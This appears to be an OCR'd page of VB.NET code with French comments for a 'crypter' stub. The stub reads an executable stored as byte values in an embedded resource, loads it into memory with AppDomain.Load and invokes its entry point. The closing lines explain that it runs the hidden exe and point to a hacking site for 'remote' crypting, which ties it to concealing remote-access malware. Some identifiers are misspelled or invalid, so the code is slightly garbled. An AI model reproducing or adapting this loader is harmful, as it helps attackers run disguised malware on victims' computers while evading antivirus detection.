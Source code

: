 Public Class Form1
 
Private Sub Form1_Load(sender As System.Object, e As System.EventArgs) Handles myBase.Load
RichTexBox1.Text = My.Resources.NOM-DE-VOTRE-FICHIER
Dim aa As String() = RichTexBox1.Lines
'declarre variable aa initialise en une liste de chaine de caractere et recupere le champs RichTextBox
Dim bb(aa.Length - 1) As Byte
'bb tableau octet la taille est le nb de ligne de RichTextBox
Dim cc As Integer = 0
'cc nombre entier = 0
'So
For Each line In aa
bb(cc) = Val(line.ToString)
cc += 1
'a chaque fois qu on parcours aa la variable lines est initialisé
' Val arrête la lecture de la chaîne au premier caractère ne faisant apparemment pas partie d'un nombre
' Val(" 1615 17e siècle") renvoi 161517
'cc est incrémenté a chaque fois pour se deplacer dans b , bb 1, bb 2
Next
'clean entry point
Dim red0 As String = "Entrypoint"
'met un point d'entrer signifi debut du code
Dim red1 As String = "invoke"
Dim red3 As Object = AppDomain.CurrentDomain.Load(bb)
Dim red4 As Object = Interaction.CallByName(red3, red0, CallType.Get)
'recupere le point d entré
Dim red5 As Object = Interaction.CallByName(red4, red1, CallType.Method, Nothing, Nothing)
'execute le point d'entré
End Sub
End Class

en gros sa prend l'exe sa le converti en octet et le place dans un tableau a partir de 'so sa cherhce le debut du code et sa execute
le contenu du tableau

voir comment c'est utilisé sur le site hackerfree remote crypte
